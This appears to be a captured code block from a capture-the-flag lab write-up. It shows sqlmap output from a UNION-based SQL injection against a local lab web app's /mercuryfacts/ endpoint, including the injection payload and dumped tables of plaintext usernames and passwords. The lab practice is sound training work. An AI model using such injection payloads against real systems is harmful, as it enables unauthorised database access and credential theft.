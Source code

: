 ```bash
    Payload: http://192.168.56.112:8080/mercuryfacts/-9229 UNION ALL SELECT CONCAT(0x716a717871,0x55495042685863566c59614e734b51506f546e4374747477565972626d624f596755426f66657179,0x7171707171)#
---
[23:39:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[23:39:22] [INFO] fetching tables for database: 'mercury'
[23:39:22] [INFO] fetching columns for table 'users' in database 'mercury'
[23:39:22] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+

[23:39:22] [INFO] table 'mercury.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.112/dump/mercury/users.csv'
[23:39:22] [INFO] fetching columns for table 'facts' in database 'mercury'
[23:39:22] [INFO] fetching entries for table 'facts' in database 'mercury'
[23:39:22] [WARNING] reflective value(s) found and filtering out
[23:39:22] [INFO] resumed: 'Mercury does not have any moons or rings.','1'
[23:39:22] [INFO] resumed: 'Mercury is the smallest planet.','2'
[23:39:22] [INFO] resumed: 'Mercury is the closest planet to the Sun.','3'
[23:39:22] [INFO] resumed: 'Your weight on Mercury would be 38% of your weight on Earth.','4'
[23:39:22] [INFO] resumed: 'A day on the surface of Mercury lasts 176 Earth days.','5'
[23:39:22] [INFO] resumed: 'A year on Mercury takes 88 Earth days.','6'
[23:39:22] [INFO] resumed: 'It's not known who discovered Mercury.','7'
[23:39:22] [INFO] resumed: 'A year on Mercury is just 88 days long.','8'
Database: mercury                                                                                                                                
Table: facts
[8 entries]
+----+--------------------------------------------------------------+
| id | fact                                                         |
+----+--------------------------------------------------------------+
| 1  | Mercury does not have any moons or rings.                    |
| 2  | Mercury is the smallest planet.                              |
| 3  | Mercury is the closest planet to the Sun.                    |
| 4  | Your weight on Mercury would be 38% of your weight on Earth. |
| 5  | A day on the surface of Mercury lasts 176 Earth days.        |
| 6  | A year on Mercury takes 88 Earth days.                       |
| 7  | It's not known who discovered Mercury.                       |
| 8  | A year on Mercury is just 88 days long.                      |
+----+--------------------------------------------------------------+

[23:39:22] [INFO] table 'mercury.facts' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.112/dump/mercury/facts.csv'
[23:39:22] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[23:39:22] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.112'

[*] ending @ 23:39:22 /2025-09-28/
```
